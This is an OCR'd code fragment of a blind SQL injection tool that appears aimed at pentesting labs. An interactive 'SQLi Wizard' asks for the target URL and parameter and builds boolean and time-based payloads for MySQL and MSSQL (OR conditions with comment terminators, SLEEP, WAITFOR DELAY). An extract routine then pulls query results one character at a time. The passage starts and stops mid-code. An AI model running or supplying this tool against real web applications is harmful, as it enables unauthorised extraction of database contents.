 ```python
        return ""

    def extract(self, query: str, maxlen: int) -> str:
        out = []
        for i in range(1, maxlen+1):
            ch = self.extract_char(query, i)
            if not ch:
                break
            out.append(ch)
        return "".join(out)

def _prompt(msg, default=None, help_hint=None):
    if help_hint:
        print(f"[hint] {help_hint}")
    val = input(f"{msg}" + (f" [{default}]" if default else "") + ": ").strip()
    return val if val else (default or "")

def wizard():
    print("\n[SQLi Wizard] Answer these questions based on your manual testing in Burp.\n")
    url = _prompt("--url", help_hint="Full URL like http://192.168.45.123/products.php")
    method = _prompt("--method (GET/POST)", "GET", "Check Burp request")
    param = _prompt("--param (vulnerable parameter)", help_hint="e.g., id, user, search")
    base = _prompt("--base (safe value)", "1", "Value that returns normal page")
    ctx = _prompt("Context? 1=string 2=numeric", "1", "If id=1' breaks, choose 1 (string)")
    db = _prompt("DB? mysql/mssql/pg", "mysql", "Guess from error messages or comment style")
    mode = _prompt("Technique? boolean/time", "boolean", "Boolean if visible diff; time if delay only")
    
    if db.lower()=="mysql" and mode=="boolean" and ctx=="1":
        template = "' OR ({condition})-- -"
    elif db.lower()=="mysql" and mode=="time":
        template = "' OR IF(({condition}),SLEEP(3),0)-- -"
    elif db.lower()=="mssql" and mode=="time":
        template = "' IF(({condition})) WAITFOR DELAY '0:0:3'--"
    else:
        template = ("' OR ({condition})-- -" if ctx=="1" else "OR ({condition})-- -")
    
    print(f"[template] {template}")
    
    if mode=="time":
        th = _prompt("--time-threshold seconds", "2.0", "Set below SLEEP value, e.g., 2.0 for SLEEP(3)")
        true_string = None
        time_threshold = float(th)
    else:
        ts = _prompt("--true-string", "", "Text that appears ONLY on TRUE (check Burp response)")
        true_string = ts or None
        time_threshold = None
    
    query = _prompt("--query", "database()", "SQL expression to extract")
    maxlen = int(_prompt("--maxlen", "64", "Max expected length"))
    
    ns = argparse.Namespace(
        url=url, method=method.upper(), param=param, base=base, template=template,
        true_string=true_string, false_string=None, true_status=None,
        min_delta_len=None, time_threshold=time_threshold, timeout=10.0,
        header=[], cookie=[], proxy=None, query=query, maxlen=maxlen,
        action="extract", test_secret=None
    )
    ind = Indicator(ns.true_string, None, None, None, ns.time_threshold)
    eng = Engine(ns.url, ns.method, ns.param, ns.base, ns.template,
                 {}, {}, ns.proxy, ns.timeout, ind, test_secret=None)
    print("\n[extracting...]")
```
